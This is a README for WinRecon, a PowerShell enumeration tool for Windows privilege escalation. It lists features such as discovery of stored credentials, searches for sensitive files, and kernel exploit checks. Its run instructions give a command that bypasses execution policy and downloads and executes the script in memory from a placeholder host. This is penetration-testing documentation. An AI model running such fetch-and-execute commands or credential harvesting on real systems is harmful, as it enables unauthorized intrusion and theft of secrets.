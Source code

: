 <img src="./WinRecon.png" alt="WinRecon Logo" style="width: 100%; height: 750px; object-fit: cover;">




## WinRecon

**WinRecon** is a PowerShell-based enumeration script designed to gather essential system information needed to identify potential privilege escalation opportunities on Windows machines. It automates the process of collecting valuable data to assist penetration testers, red teams, and system administrators in finding weaknesses that could lead to elevation of privileges.

---

## Features

### User and Group Enumeration
- **Local User Accounts**: Lists all local user accounts and highlights administrative accounts.
- **Group Memberships**: Displays detailed information about group memberships.
- **Domain Information**: Extracts information about domain users and domain controllers when applicable.

### Credential Discovery
- **Stored Credentials**: Identifies credentials stored in the system, such as in the registry or configuration files.
- **Password Policies**: Retrieves domain and local password policies to highlight weak configurations.

### Service and Task Enumeration
- **Services**: Lists services with details like privileges, paths, and configurations.
- **Scheduled Tasks**: Enumerates scheduled tasks to identify potential execution vectors.

### Privilege Escalation Insights
- **System Information**: Extracts OS details, patches, and configurations.
- **Misconfigurations**: Identifies potential misconfigurations, such as writable directories or vulnerable registry keys.
- **Kernel Exploits**: Checks for unpatched kernel vulnerabilities based on OS version.

### File and Directory Insights
- **Sensitive Files**: Searches for files containing potential credentials or sensitive data.
- **Writable Directories**: Lists directories writable by non-privileged users.

### Network Configuration
- **Network Interfaces**: Displays information about active network interfaces.
- **Listening Ports**: Identifies listening ports and associated services.

### Logging and Reporting
- **Comprehensive Logging**: Logs findings to a structured and easily readable format.
- **Export Options**: Provides options to save results for later analysis.

---

## How to Run

1. **For full AD options you will need to download PsLoggedon.exe and PowerView.ps1**.
2. Run the script with the following command:
   ```powershell
   powershell -ep Bypass -Command 'IEX(IWR http://<LocalHost>/winrecon.ps1 -UseBasicParsing)'
   ```



